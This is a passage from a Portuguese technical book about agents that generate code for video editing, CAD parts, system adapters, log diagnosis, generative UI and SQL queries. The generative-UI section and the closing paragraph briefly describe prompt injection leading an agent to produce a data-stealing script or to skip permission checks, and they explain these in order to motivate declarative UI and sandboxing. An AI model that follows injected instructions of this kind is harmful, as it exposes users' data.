Reformular a edição de vídeo como chamadas de API e geração de código reduz drasticamente a complexidade. Muitos softwares profissionais — como o Blender, uma ferramenta de código aberto para criação 3D e composição de vídeo com suporte a scripts Python, e o FFmpeg, um utilitário de linha de comando versátil para processamento de áudio e vídeo — fornecem APIs programáticas que expõem suas principais funcionalidades de maneira estruturada e combinável. A API Python do Blender, por exemplo, permite controlar com precisão operações como importar, cortar e organizar clipes, adicionar efeitos de transição e mixar áudio, cada uma correspondendo a uma chamada de função bem definida. Para um agente, converter requisitos em linguagem natural em chamadas de API é muito mais fácil do que compreender uma interface gráfica e simular cliques do mouse. Assim como na geração de PPT, a edição de vídeo também adota o mecanismo Proposer-Reviewer: o Proposer Agent gera scripts do Blender, enquanto o Reviewer Agent renderiza quadros-chave, usa um Vision LLM para verificar o resultado e fornece feedback para as modificações.

> **Experimento 5-8 ★★: Edição inteligente de vídeo baseada em API**
>
> **Objetivo do experimento**: Verificar a capacidade do agente de editar vídeos por meio da geração de código para a API Python do Blender e avaliar o papel do mecanismo Proposer-Reviewer, baseado em feedback visual, no processamento de conteúdo multimídia.
>
> **Principal desafio**: Compreender os requisitos de edição expressos pelo usuário em linguagem natural e convertê-los em sequências precisas de chamadas de API, lidar com diferentes operações de edição — corte, mesclagem, legendas, mixagem de faixas de áudio e efeitos visuais — e garantir a execução correta do script Python gerado. Depois que o Proposer Agent escreve o código, ele não consegue avaliar diretamente o resultado do vídeo; precisa recorrer ao Reviewer Agent para renderizar quadros-chave e verificá-los com um Vision LLM.
>
> **Abordagem técnica**: O usuário fornece o material de vídeo — por exemplo, uma gravação bruta com cenas de surfe, caminhada e esqui — e descreve os requisitos em linguagem natural, como “Recorte a parte do surfe”. O Proposer Agent usa um subagente de análise de vídeo com uma **estratégia de localização em duas etapas**:
>
> **Etapa 1, localização aproximada**: Chamar o subagente com o caminho do vídeo, um intervalo de amostragem de quadros de 10 segundos e a pergunta-alvo. O subagente usa o ffmpeg para capturar quadros nesse intervalo, envia as imagens e a pergunta a um Vision LLM e retorna o intervalo da cena, por exemplo: “O surfe ocorre entre 40 e 110 segundos”.
>
> **Etapa 2, localização precisa**: Chamar novamente o subagente em um intervalo mais restrito e amostrar um quadro por segundo para localizar os limites com precisão.
>
> Encapsular a análise de vídeo como um subagente evita que um grande número de imagens ocupe o contexto do agente principal. Após a localização, o Proposer gera o script para a API do Blender. O Reviewer Agent produz uma prévia rápida, verifica os quadros-chave e fornece feedback para as modificações. O processo se repete até que o padrão seja atingido, antes da renderização completa.
>
> **Critérios de aceitação**: O agente deve identificar corretamente as diferentes cenas do vídeo e gerar os scripts de edição adequados com base nas instruções em linguagem natural. Os pontos inicial e final devem ser precisos, com erro de até três segundos. Se as instruções incluírem efeitos especiais — câmera lenta, transições ou legendas —, o vídeo gerado deverá aplicá-los corretamente. O Reviewer Agent deve conseguir detectar erros evidentes, como a ausência de conteúdo importante ou a inclusão de trechos irrelevantes, e acionar as correções. O arquivo de vídeo final deve estar no formato correto e atender à qualidade esperada.
>

**Peças 3D e industriais: a fronteira entre geração de código e modelos generativos.**

Quando se trata de “gerar algo”, o agente tem dois caminhos: escrever código para construir o objeto com precisão — usando CadQuery, OpenSCAD ou a API do Blender — ou chamar diretamente um modelo generativo 3D, como os modelos de texto ou imagem para 3D, a exemplo do Hunyuan 3D, que pertencem à mesma família de difusão dos modelos de geração de imagens a partir de texto. Muitas pessoas se perguntam: quando usar geração de código e quando recorrer a um modelo generativo de imagens ou 3D?

**Primeiro, verifique se o artefato tem uma descrição compacta e precisa.** Peças industriais têm essa característica por natureza. Um flange é totalmente definido por cinco ou seis parâmetros — diâmetro externo, espessura, diâmetro do círculo de parafusos, diâmetro dos furos e quantidade de furos —, e o código é uma representação **sem perdas**. Já um vaso de planta, uma rocha de Taihu ou um rosto humano têm detalhes incontáveis, e sua **complexidade intrínseca é praticamente ilimitada**.

**Segundo, verifique os requisitos de precisão e a possibilidade de validação.** Cada dimensão de uma peça é uma restrição rígida: diâmetro do furo de 5 mm, tolerância de ±0,05 mm; um desvio mínimo basta para inutilizá-la. Uma peça gerada por código pode ser verificada de forma programática: carregue a malha, meça o diâmetro externo e a posição dos furos e compare cada item com a especificação. Uma peça produzida por um modelo generativo 3D não pode ser verificada diretamente em relação à especificação.

As duas abordagens também diferem em um aspecto mais prático: **forma de representação e capacidade de edição**. Os fluxos de trabalho de fabricação exigem sólidos paramétricos em B-rep (representação de contorno): o arquivo STEP armazena a árvore de recursos e os parâmetros dimensionais e pode acionar diretamente a usinagem CNC. Já um modelo generativo 3D produz uma malha triangular: as superfícies curvas são aproximadas por inúmeras faces minúsculas e, quando ampliadas, parecem irregulares. A diferença fica evidente quando o cliente pede: “mude os furos de montagem de M5 para M6”. Na abordagem por código, basta alterar um número e executar novamente, mantendo todas as demais dimensões exatamente iguais. Na abordagem por modelo generativo, a única opção é gerar tudo de novo — e é uma questão de sorte se as outras dimensões não se desviarem.

Portanto, escolher a abordagem já é, por si só, uma decisão que o agente precisa tomar: ponderar a complexidade intrínseca do artefato e os requisitos de precisão para atribuir a tarefa à geração por código ou a um modelo generativo 3D. Em sistemas reais, também é possível combinar as duas abordagens: gerar a geometria de forma paramétrica por código e deixar a textura da superfície a cargo de um modelo generativo, aproveitando o melhor de cada uma.

> **Experimento 5-9 ★★: duas abordagens para gerar a mesma peça — código versus modelo generativo**
>
> **Objetivo do experimento**: usar a mesma peça mecânica com especificações dimensionais para comparar as abordagens de geração por código e por modelo generativo 3D quanto à precisão dimensional, à capacidade de edição e à viabilidade de fabricação, validando o critério de “escolher a abordagem de acordo com a complexidade intrínseca e os requisitos de precisão”.
>
> **Abordagem técnica**: um requisito em linguagem natural com especificações explícitas, por exemplo: “um flange com diâmetro externo de 80 mm, espessura de 10 mm e quatro furos de montagem M5 uniformemente distribuídos em um círculo de furação de 60 mm de diâmetro”. **Abordagem A**: o agente escreve código em CadQuery (ou OpenSCAD) para construir a peça e a exporta nos formatos STEP e STL. **Abordagem B**: a mesma especificação é fornecida a um modelo generativo 3D, como o Hunyuan 3D, para obter uma malha triangular. **Verificação programática**: medir as dimensões principais dos resultados das duas abordagens — diâmetro externo, espessura, posições e diâmetros dos furos —, comparar os desvios em relação às especificações e verificar a planicidade da face de montagem.
>
> Em seguida, emitir a solicitação de alteração “mude os furos de montagem de M5 para M6” e registrar o custo da modificação em cada abordagem. Na abordagem por código, basta alterar um parâmetro e executar novamente. Na abordagem por modelo generativo, a única opção é gerar tudo outra vez, sem garantia de que as demais dimensões permaneçam inalteradas.
>
> **Grupo de controle**: gerar uma planta em vaso. Nesse caso, as vantagens das duas abordagens se invertem: pela abordagem por código, mesmo com a adição de ruído procedural, o resultado é rígido e sem vida; pela abordagem por modelo generativo, é natural e vívido.

### Código como adaptador de sistemas

Nas seções anteriores, o código produzia sobretudo elementos voltados para pessoas, como relatórios, slides e interfaces. Nesta seção, ele aponta para outra direção: **conectar máquinas entre si**. Em sistemas reais, os serviços externos com os quais um agente precisa interagir muitas vezes não têm um SDK pronto, e suas interfaces nem sempre são padronizadas: a documentação pode estar ausente, os formatos de resposta podem não seguir um padrão e os campos podem mudar entre versões. O agente não precisa esperar que alguém prepare previamente uma camada de adaptação. Ele pode ler a documentação da interface ou inspecionar uma ou duas respostas reais e, na hora, gerar o código adaptador: construir um cliente HTTP, montar cabeçalhos de autenticação, analisar estruturas de resposta fora do padrão e converter o modelo de dados do sistema de origem para um formato que o sistema de destino possa consumir. Nesse caso, o código se torna uma “cola universal” para conectar sistemas arbitrários: onde houver uma lacuna, gera-se na hora um trecho de código de integração para preenchê-la. Esse é o cerne da vertente de “interface de sistemas” dessa metacapacidade. A análise adaptativa de logs apresentada a seguir concretiza essa capacidade no contexto da observabilidade: diante de formatos de log em constante evolução, o agente também se adapta gerando código de análise na hora.

Essa “cola universal” também pode se estender a **sistemas sem API alguma**. Quando um sistema externo oferece apenas uma interface gráfica, o agente pode primeiro operá-la por meio do Computer Use — apresentado em detalhes no Capítulo 6 — e depois consolidar em código, na forma de uma ferramenta de RPA, a sequência de operações executada com sucesso. Quando a mesma tarefa surgir novamente, basta executar o código para concluí-la com grande velocidade e estabilidade, sem recorrer outra vez a um dispendioso raciocínio visual. Pode-se dizer que a RPA é a forma extrema do “adaptador de sistemas” aplicada a sistemas sem interface programática. Esse mecanismo de “gravação e consolidação de fluxos de trabalho” será abordado no Capítulo 9.

O processamento de dados está entre as tarefas mais comuns — e também mais problemáticas — dos sistemas de software. A causa principal está na diversidade e na constante mudança dos formatos de dados. Durante sua evolução, um mesmo sistema pode alterar seus formatos várias vezes, adicionando campos, modificando estruturas aninhadas ou introduzindo novos tipos. Escrever manualmente um analisador para cada formato impõe um custo de manutenção muito alto: toda mudança exige atualizar a lógica de análise, testar a compatibilidade e implantar uma nova versão.

A geração de código oferece uma abordagem inteiramente nova: ao encontrar um formato desconhecido, o agente gera na hora o código de análise com base em dados de amostra. Assim, o sistema se adapta automaticamente à evolução dos formatos, sem intervenção humana.

**Análise e visualização de logs de agentes.**

A observabilidade dos sistemas de agentes depende da visualização dos fluxos de execução. Uma tarefa complexa de um agente pode envolver centenas de etapas, incluindo várias chamadas a LLMs, dezenas de execuções de ferramentas e múltiplas interações entre subagentes. A visualização desses dados apresenta vários desafios: diferentes ferramentas retornam dados com estruturas distintas, e os formatos evoluem a cada iteração do sistema; além disso, uma trajetória completa pode conter centenas de milhares de caracteres, o que exige equilíbrio entre a visão geral e os detalhes.

A geração de código oferece uma solução elegante: estabelecer um ciclo de feedback com correção automática. Quando o frontend encontra um formato de log que não consegue analisar, em vez de exibir um erro, ele informa automaticamente ao agente os dados da falha — uma amostra do log bruto e a mensagem de erro detalhada. O agente analisa a estrutura dos dados de amostra e gera código de frontend capaz de interpretá-los corretamente. Primeiro, o código é testado automaticamente em um navegador virtual para validar a análise, enquanto um Vision LLM avalia a visualização. Se passar pelas duas verificações, ele é implantado no frontend por meio de uma atualização a quente.

> **Experimento 5-10 ★★★: sistema adaptativo de análise de logs**
>
> **Objetivo do experimento**: construir um sistema de visualização de logs de agentes capaz de evoluir por conta própria.
>
> **Abordagem técnica**: o sistema inicial oferece suporte apenas a formatos básicos. O frontend detecta uma falha de análise → informa o agente → gera o código de análise → testa em um navegador virtual → implanta uma atualização a quente. Todo o processo é automatizado.
>
> **Critérios de aceitação**: detectar falhas automaticamente e acionar o aprendizado, gerar código que passe nos testes automatizados e analisar corretamente os novos formatos após a atualização a quente.
>

**Análise automática e diagnóstico de problemas em logs de execução de agentes.**

Agentes em produção geram um grande volume de logs de trajetória, que registram o processo completo de cada tarefa. No entanto, identificar problemas nesses logs, localizar suas causas principais e criar casos de teste é uma tarefa de alto custo. As causas são difíceis de isolar porque uma falha pode resultar da interação entre erros de vários módulos. A reprodução também é dispendiosa, pois é difícil simular em um ambiente de teste toda a complexidade do ambiente de produção. Por fim, problemas já corrigidos tendem a reaparecer quando não há testes de regressão sistemáticos.

A geração de código oferece um caminho automatizado para o diagnóstico. O agente pode ler os logs de produção e analisá-los em conjunto com documentos de arquitetura e PRDs (documentos de requisitos do produto) para determinar automaticamente se o fluxo de execução corresponde ao esperado e identificar os componentes e módulos problemáticos. Com base nos resultados, ele gera relatórios estruturados de problemas — com prioridade, módulo, descrição e sugestões de melhoria — e casos de teste de regressão. Esses casos fazem referência ao ID da trajetória problemática e às rodadas de interação relevantes, e o framework de testes os reproduz automaticamente para verificar se o sistema corrigido apresenta o comportamento adequado diante da mesma entrada. Por fim, o agente se conecta ao GitHub por meio do MCP para criar uma Issue e atribuí-la ao desenvolvedor responsável, automatizando todo o processo, da identificação do problema à distribuição da tarefa.

> **Experimento 5-11 ★★★: sistema inteligente de diagnóstico de logs de produção**
>
> **Objetivo do experimento**: identificar automaticamente problemas em trajetórias de produção, gerar casos de teste e criar itens de trabalho.
>
> **Abordagem técnica**: o agente analisa um conjunto de trajetórias do ambiente de produção em conjunto com documentos de arquitetura do sistema e PRDs para identificar padrões de problemas e os módulos envolvidos. Em seguida, gera relatórios estruturados contendo prioridade, módulo, descrição e sugestões de melhoria. Também gera testes de regressão vinculados aos IDs das trajetórias e às rodadas de interação; o framework de testes reproduz esses casos e verifica os resultados. Por fim, o agente cria Issues no GitHub por meio do MCP.
>
>
> 
>
>

### Código como UI generativa

Os sistemas de agentes tradicionais interagem com os usuários principalmente por meio de diálogos em texto simples. No entanto, o texto é um meio linear e unidimensional e, em muitos cenários, pouco eficiente. A coleta de informações estruturadas exige uma longa sequência de perguntas e respostas; relações complexas entre dados são difíceis de expressar em texto simples; e, quando os usuários precisam escolher entre várias opções, uma lista textual é muito menos intuitiva do que uma interface visual.

A geração de código oferece uma forma de superar essas limitações: os agentes podem gerar dinamicamente formulários, gráficos interativos e até aplicações web completas, transformando diálogos estáticos em texto em interações multimodais mais ricas. Esse padrão, no qual o agente gera dinamicamente a interface, é chamado de **UI generativa**.

**Protocolos semelhantes ao A2UI: padronização da UI generativa.**

Permitir que agentes gerem HTML e JavaScript que o cliente renderiza e executa diretamente cria um risco de segurança fundamental: o código gerado pode ser malicioso. Por exemplo, se alguém ocultar deliberadamente uma instrução na entrada, o agente poderá ser manipulado por uma injeção de prompt e, sem perceber, gerar um script que roube dados do usuário de forma furtiva. É importante distinguir causa e efeito: a causa é a **injeção de prompt** — instruções maliciosas misturadas à entrada do agente —, enquanto a execução do script malicioso resultante no navegador e o roubo de dados produzem um efeito semelhante ao XSS tradicional da Web (Cross-Site Scripting). Portanto, o ataque como um todo não deve ser chamado simplesmente de XSS. Protocolos de interface declarativa como o A2UI (Agent-to-User Interface) oferecem uma abordagem mais segura. Em vez de gerar diretamente código executável, o agente produz apenas um “manifesto de descrição da UI” em JSON, por exemplo: “Exiba uma tabela com três linhas e duas colunas, intitulada ‘Dados de vendas’”. Em seguida, o cliente renderiza a interface usando componentes seguros e predefinidos. É como o cardápio de um restaurante: o cliente (agente) só pode pedir os pratos disponíveis no cardápio (componentes predefinidos), e não entrar na cozinha para preparar pratos arbitrários (executar código arbitrário). Um ponto que costuma causar confusão é o AG-UI (Agent-User Interaction, proposto pela CopilotKit). Apesar do nome semelhante, ele não é uma linguagem de descrição de UI, mas um **protocolo de eventos e transporte** que transmite continuamente ao frontend o estado de execução do agente — mensagens, chamadas de ferramenta e atualizações de estado — e também pode transportar payloads de UI, como manifestos A2UI. Portanto, os dois são complementares e não devem ser agrupados como exemplos da mesma categoria de interfaces declarativas.

O princípio central desses protocolos é a **segurança em primeiro lugar**: o cliente mantém um catálogo confiável de componentes, como Card, Button, TextField e Table. Se o catálogo e o mecanismo de renderização forem implementados corretamente, o agente poderá solicitar apenas componentes catalogados, sem injetar código arbitrário. O cliente renderiza a interface com seus próprios componentes nativos, em vez de executar HTML arbitrário gerado pelo agente. Esses protocolos geralmente também oferecem **renderização multiplataforma** — a mesma descrição pode ser renderizada em React, Flutter e aplicações nativas — e **geração incremental**, por exemplo, por meio de um fluxo JSONL que o cliente renderiza à medida que recebe os dados.

Naturalmente, a abordagem declarativa é adequada para cenários de interação padronizados, como formulários, tabelas e cartões. Para necessidades altamente personalizadas, como visualizações sob medida e interfaces de jogos, a geração direta de código continua sendo a opção mais flexível. A seguir, apresentamos aplicações específicas dos dois padrões.

**Entrega de resultados em HTML: substituição de relatórios em Markdown.** A UI generativa não é usada apenas durante a interação; ela também está mudando a forma da **entrega** final do agente. Tradicionalmente, ao concluir uma tarefa, o agente entrega um relatório em Markdown. No entanto, percorrer páginas de conteúdo disposto linearmente em Markdown não proporciona uma boa experiência de leitura. À medida que os agentes aprimoram sua capacidade de gerar código de frontend, torna-se cada vez mais comum fazê-los produzir HTML diretamente. Em comparação com o Markdown, as entregas em HTML apresentam várias vantagens claras. Primeiro, as **demonstrações interativas** permitem que os usuários vejam de forma prática como o sistema funciona, o que muitas vezes é mais fácil de compreender à primeira vista do que longas descrições textuais. Segundo, uma **melhor visualização de dados** permite explorar informações por meio de gráficos e controles interativos para navegar, filtrar e examinar detalhes. Terceiro, **entregas que podem ser aprimoradas continuamente** permitem que o agente atualize e amplie um site HTML ao longo da tarefa, em vez de produzir um artefato estático apenas ao final.

Tomando como exemplo a experiência do autor na elaboração de artigos de pesquisa: para cada projeto de pesquisa, ele mantém um site interativo[^ch5-4]. Esse site funciona tanto como entrega final quanto como documento vivo durante todo o processo de pesquisa — o autor encarrega o agente de atualizá-lo continuamente à medida que os experimentos avançam. O site cumpre pelo menos três funções. Primeiro, oferece **rastreabilidade dos dados dos experimentos**: os dados específicos de cada experimento, os prompts utilizados e as respostas brutas do LLM podem ser examinados individualmente no site. Expor tudo dessa forma facilita a identificação de problemas na construção, na formatação e na distribuição dos dados, além de revelar possíveis vieses sistemáticos nas respostas do LLM ou nas pontuações do avaliador. Segundo, permite o **monitoramento das métricas de treinamento**: as curvas de treinamento são exibidas diretamente no site, facilitando o acompanhamento das **métricas internas de integridade** do modelo e a verificação da estabilidade do processo de treinamento. O termo faz uma analogia com a medicina: são sinais internos que indicam se o próprio processo de treinamento está saudável, como perdas de treinamento e validação, norma do gradiente, taxa de aprendizado, perplexidade do modelo ao emitir tokens — uma medida de sua “confiança” na própria saída — e, no aprendizado por reforço, recompensa, divergência KL e entropia da política. Essas métricas diferem das métricas de resultado final, como a acurácia da tarefa: assim como os indicadores fisiológicos de um exame médico são distintos do desempenho exterior de uma pessoa, as métricas internas de integridade costumam revelar muito antes problemas como perda que não converge, explosão de gradientes e colapso do treinamento. Terceiro, possibilita a **demonstração do funcionamento do sistema**: as visualizações mostram como todo o sistema opera, permitindo que os leitores compreendam rapidamente a estrutura do sistema construído com IA.

[^ch5-4]: O site dos projetos de pesquisa do autor está disponível em https://01.me/research/; cada projeto conta com um site interativo atualizado continuamente.

**Esclarecimento da intenção do usuário.**

Quando os requisitos são vagos ou incompletos, o agente precisa fazer perguntas de esclarecimento para coletar as informações que faltam. Produtos como o OpenAI Deep Research costumam fazer isso por meio de perguntas e respostas em texto, mas essa abordagem tem limitações claras. Ela é ineficiente porque cada pergunta consome um turno de diálogo; assim, dez pontos a esclarecer podem exigir dez rodadas de interação. Além disso, ela não representa bem as dependências entre perguntas — por exemplo, o destino de uma viagem restringe os meios de transporte disponíveis —, algo que o texto simples tem dificuldade para apresentar com clareza.

Por meio da geração de código, o agente pode criar interfaces interativas estruturadas para substituir as perguntas e respostas em texto. A Figura 5-8 ilustra o processo de geração dinâmica de formulários e mostra como o agente transforma perguntas de esclarecimento em uma interface estruturada que pode ser preenchida de uma só vez. O agente gera um formulário HTML com vários controles de entrada: caixas de texto para informações abertas, menus suspensos para opções predefinidas, caixas de seleção para escolhas múltiplas e seletores de data para facilitar a inserção de datas. Versões mais avançadas podem usar JavaScript para criar formulários em cascata, que exibem ou ocultam perguntas subsequentes e atualizam as opções disponíveis de acordo com as escolhas do usuário. Assim, o usuário preenche todo o formulário de uma só vez, sem precisar de várias rodadas de diálogo, e consegue visualizar claramente todas as informações necessárias e as relações lógicas entre as perguntas.




> **Experimento 5-12 ★★: Sistema de esclarecimento de intenção com formulários dinâmicos**
>
> **Objetivo do experimento**: Verificar a capacidade do agente de esclarecer a intenção do usuário por meio da geração dinâmica de formulários HTML.
>
> **Abordagem técnica**: O agente analisa a solicitação do usuário, identifica os pontos que precisam ser esclarecidos e gera o código de um formulário com lógica em cascata. O frontend renderiza o formulário, o usuário envia as informações de uma só vez e o agente analisa os dados JSON para dar continuidade à tarefa.
>
> **Critérios de aceitação**: O usuário informa: “Quero reservar uma passagem aérea para Pequim.” O agente gera um formulário com os seguintes campos: cidade de partida (entrada de texto), data de partida (seletor de data), tipo de viagem (botões de opção para somente ida ou ida e volta) e data de retorno (exibida apenas quando a opção de ida e volta estiver selecionada). O usuário envia todas as informações de uma só vez.
>

**Geração de consultas SQL.**

A consulta a bancos de dados é um cenário em que a geração de código pode melhorar significativamente a experiência de interação. O acesso tradicional a bancos de dados depende de ferramentas de GUI ou de SQL escrito manualmente; as primeiras são trabalhosas, e o segundo exige conhecimento especializado do usuário. Um agente pode traduzir linguagem natural em SQL, mas há uma decisão de projeto importante: o agente deve executar a consulta e descrever os resultados em linguagem natural ou deve gerar o SQL como um artefato para o sistema executar e o frontend exibir?

A primeira abordagem parece mais “inteligente”, mas é extremamente ineficiente: uma consulta em uma tabela grande pode retornar milhares de linhas. Fazer o LLM ler tudo e descrever os dados em prosa consome tokens e tempo; pior ainda, LLMs são notoriamente propensos a erros ao “transcrever” dados. Uma opção melhor é o **padrão Artefato**. A Figura 5-9 mostra o fluxo de trabalho de um agente de consultas SQL: em vez de ler os dados, o agente gera uma consulta SQL e a repassa ao sistema como um **artefato executável** independente. O sistema executa a consulta no banco de dados e renderiza os resultados em uma tabela para o usuário. Dessa forma, os dados fluem diretamente do banco de dados para a interface, sem passar pelo LLM; o LLM escreve a consulta, mas não precisa ler nem reexpressar milhares de linhas. Essa abordagem é mais rápida e mais precisa.

O SQL e o código de visualização gerados não devem ser executados diretamente. A camada de execução deve usar credenciais de banco de dados somente leitura, analisar o SQL, permitir apenas instruções `SELECT` aprovadas e rejeitar DDL, DML e consultas com várias instruções. Os valores fornecidos pelo usuário devem ser vinculados como parâmetros no servidor, com limites de tempo de consulta, número de linhas retornadas, tabelas acessíveis e intervalos de datas. O código de visualização deve ser executado em uma sandbox isolada da rede e do sistema de arquivos e produzir apenas um formato de resultado aprovado. O padrão Artefato encurta o caminho dos dados, mas não substitui as verificações de autorização nem o isolamento da execução.




Indo além, o agente pode gerar dois artefatos que formam um pipeline: uma consulta SQL e um código de visualização, como o código de um gráfico de barras. O frontend passa os resultados do SQL diretamente para o código de visualização. O LLM gera o código, mas não participa do caminho dos dados — essa é a essência da geração de código como interface.

> **Experimento 5-13 ★★: Agente de ERP com interação em linguagem natural**
>
> O software de ERP (planejamento de recursos empresariais) é um sistema essencial para as empresas e, em geral, utiliza uma interface gráfica na qual operações complexas exigem vários cliques do mouse. Um agente de IA pode converter consultas dos usuários em linguagem natural em instruções SQL, automatizando as consultas ao banco de dados.
>
> Requisitos: criar um banco de dados PostgreSQL com duas tabelas: (1) tabela de funcionários, contendo ID do funcionário, nome, departamento, nível, data de admissão e data de desligamento (NULL indica que o funcionário ainda está na empresa); (2) tabela de salários, contendo ID do funcionário, data de pagamento e salário (um registro por mês). O agente responde automaticamente:
>
> 1. Qual é o tempo médio de permanência dos funcionários na empresa?
> 2. Quantos funcionários ativos há em cada departamento?
> 3. Qual departamento tem o maior nível médio dos funcionários?
> 4. Quantos funcionários foram admitidos em cada departamento neste ano e no ano passado?
> 5. Qual foi o salário médio do departamento A entre março de dois anos atrás e maio do ano passado?
> 6. Qual departamento teve o maior salário médio no ano passado, A ou B?
> 7. Qual é o salário médio dos funcionários de cada nível neste ano?
> 8. Qual é o salário médio do mês mais recente para funcionários com menos de um ano, de um a dois anos e de dois a três anos de empresa?
> 9. Quais foram os dez funcionários com o maior aumento salarial do ano passado para este ano?
> 10. Há casos de salários não pagos, isto é, funcionários que estavam empregados em determinado mês, mas não têm registro de pagamento referente a esse mês?
>

**Geração dinâmica de software.**

A aplicação mais avançada da geração de código é permitir que o agente crie software de maneira inteiramente dinâmica, do zero. O “Imagine with Claude”, da Anthropic, demonstra os limites dessa possibilidade: o usuário faz uma solicitação, Claude gera em tempo real a interface de frontend e a lógica de interação, o usuário interage com o software gerado, e Claude modifica o código para criar uma nova interface que exibe os resultados da operação. Ao longo de todo o processo, o usuário vê uma aplicação surgir do nada e evoluir continuamente.

No entanto, esse modelo de geração totalmente dinâmica tem custos e latência elevados, sendo mais adequado a experimentos que demonstrem os limites dessa capacidade. Uma abordagem mais pragmática é **personalizar um framework existente**. Esse modelo “semipersonalizado” preserva a estabilidade do software de base e, ao mesmo tempo, permite que o usuário controle aspectos específicos. O usuário pode dizer “deixe o botão azul”, “adicione um menu de atalhos à barra lateral” ou “mude para uma fonte mais legível”; o agente modifica o código do frontend, e o HMR (Hot Module Replacement, que substitui módulos afetados sem recarregar a página inteira e geralmente preserva o estado da aplicação) aplica as alterações imediatamente. Assim, um produto padronizado se transforma em uma experiência personalizada para cada usuário.

> **Experimento 5-14 ★★: Sistema de personalização de interface por diálogo**
>
> **Objetivo do experimento**: permitir que os usuários personalizem instantaneamente a interface do software por meio de diálogos em linguagem natural e avaliar se a geração de código com hot reload pode oferecer experiências personalizadas com eficácia.
>
> **Abordagem técnica**: criar uma aplicação básica de chatbot, com frontend em React e backend em FastAPI, e executar ambos os componentes no modo de desenvolvimento, com hot reload habilitado (HMR do React e reload do FastAPI). Durante a conversa, os usuários solicitam personalizações da interface — cores, fontes, layout, posição de componentes etc. O agente modifica o código de forma autônoma. O mecanismo de hot reload detecta automaticamente as alterações nos arquivos, o frontend é recompilado e atualizado, e o usuário vê as mudanças na interface em tempo real. O sistema oferece suporte a várias rodadas de personalização iterativa.
>

Além de proporcionar flexibilidade, a geração dinâmica de software altera as premissas tradicionais de segurança. No passado, o código de negócio de uma aplicação era desenvolvido, revisado, testado e implantado e, depois disso, permanecia relativamente estável por algum tempo. Por isso, as verificações de permissão geralmente ficavam na camada da aplicação: primeiro, o código de negócio decidia se o usuário atual podia ler ou modificar determinado registro; só então enviava a operação ao banco de dados. Quando interfaces, fluxos de trabalho e até mesmo o código de acesso aos dados podem ser gerados ou reescritos por um agente a qualquer momento, essa camada deixa de ser estável. O código recém-gerado pode omitir uma verificação sutil de permissão, expor um campo que antes não era visível ou contornar uma verificação existente por outro caminho de chamada. Seja por um erro comum de geração, seja pela produção de código perigoso após uma injeção de prompt, o resultado é o mesmo: a fronteira de permissões que deveria ser mantida pelo código de negócio pode ser violada silenciosamente.

